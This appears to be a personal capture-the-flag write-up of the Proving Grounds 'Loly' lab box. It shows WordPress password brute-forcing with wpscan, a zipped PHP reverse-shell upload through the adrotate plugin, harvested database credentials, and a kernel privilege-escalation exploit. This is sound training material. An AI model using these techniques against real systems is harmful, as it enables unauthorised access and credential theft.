


<html>
  <head>
    <link rel="icon" href="/assets/imgs/beans.png" type="image/png">
  </head>
  
</html>

[Main Page](/index)

# Loly

---

And now for another OSCP like box from proving grounds play!

First, I ran this nmap command to get a quick look at running services on the box:

```bash
nmap --max-rate 10000 -p- -v <ip>
```

And the only open port is `80` which is an http webserver.

```bash
$ nmap -sC -sV -p80 192.168.105.121 -oN nmap.initial
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-07 18:00 EDT
Nmap scan report for loly.lc (192.168.105.121)
Host is up (0.088s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.36 seconds
```

Let’s take a look!



A default nginx page. Let’s check for any hidden directories. I like to use `gobuster`.


The web page looked a little strange so I looked at the code and some references pointed to [`loly.lc`](http://loly.lc) so I added it to my `/etc/hosts` file.


We can see some more wordpress content using gobuster again:


I used wpscan to scan the website and enumerate some users using the `--enumerate u` flag.

```bash
wpscan --url http://loly.lc/wordpress --enumerate u
```


And we found the username `loly`! We can use wpscan to bruteforce the password as well. Here is the full output:

```
$ wpscan --url http://loly.lc/wordpress -U loly -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://loly.lc/wordpress/ [192.168.126.121]
[+] Started: Sun May  4 09:40:14 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: nginx/1.10.3 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://loly.lc/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://loly.lc/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://loly.lc/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.5 identified (Insecure, released on 2020-08-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://loly.lc/wordpress/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.5</generator>
 | Confirmed By: Emoji Settings (Passive Detection)
 |  - http://loly.lc/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.5'

[+] WordPress theme in use: feminine-style
 | Location: http://loly.lc/wordpress/wp-content/themes/feminine-style/
 | Last Updated: 2025-04-21T00:00:00.000Z
 | Readme: http://loly.lc/wordpress/wp-content/themes/feminine-style/readme.txt
 | [!] The version is out of date, the latest version is 3.0.6
 | Style URL: http://loly.lc/wordpress/wp-content/themes/feminine-style/style.css?ver=5.5
 | Style Name: Feminine Style
 | Style URI: https://www.acmethemes.com/themes/feminine-style
 | Description: Feminine Style is a voguish, dazzling and very appealing WordPress theme. The theme is completely wo...
 | Author: acmethemes
 | Author URI: https://www.acmethemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://loly.lc/wordpress/wp-content/themes/feminine-style/style.css?ver=5.5, Match: 'Version: 1.0.0'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] adrotate
 | Location: http://loly.lc/wordpress/wp-content/plugins/adrotate/
 | Last Updated: 2025-03-18T21:03:00.000Z
 | [!] The version is out of date, the latest version is 5.13.7
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.8.6.2 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/adrotate/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <======================================================> (137 / 137) 100.00% Time: 00:00:02

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - loly / fernando
Trying loly / corazon Time: 00:00:05 <                                                       > (175 / 14344567)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: loly, Password: fernando

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun May  4 09:40:33 2025
[+] Requests Done: 345
[+] Cached Requests: 9
[+] Data Sent: 136.671 KB
[+] Data Received: 488.26 KB
[+] Memory used: 281.008 MB
[+] Elapsed time: 00:00:19
```


And we get a hit with rockyou.txt!

```
loly : fernando
```

Another thing to note is the plugin `adrotate`. Let’s login to the wordpress admin panel.


I found this github repo which describes an exploit for our version of adrotate, 5.8.6.2:

[https://github.com/jephk9/oscp-jewels/blob/main/services/wordpress-plugin-exploits.md](https://github.com/jephk9/oscp-jewels/blob/main/services/wordpress-plugin-exploits.md)

```bash
# can upload shell as zip as image banner
# banner images are auto extracted to /banner folder
# use plugin settings to find where the /banner folder is
# mostly /var/www/html/wordpress/wp-content/banners
wp-content/banners/web.php
```

Basically, we can upload a “banner”, but the plugin does not properly check it. So if we zip up a php reverse shell and upload it, it will automatically unzip it onto the web server. I used pentest monkeys php reverse shell, then zipped and uploaded it. I then accessed the shell by navigating to `/wordpress/wp-content/banners/web.php`.


And we have a shell! It is good practice to navigate and explore the web root post-exploitation. In our case, wordpress gave us some cleartext creds!


```bash
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );
```

We could use these creds to `su` into the `loly` user, however this is not where our priv esc lies. Instead, if we run `uname -a` we can see an older version of the linux kernel.

```bash
www-data@ubuntu:/home/loly$ uname -a                                                                                    
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

After doing a little searchsploit our kernel version 4.4.0 meets the criteria `< 4.13.9` 45010.c


I then used `searchsploit -m` to copy the exploit and hosted it on a python webserver to transfer it to the machine. gcc was installed on the machine which was helpful.



And boom! We are root!

---

And that’s that box! Thanks for reading. Cheers
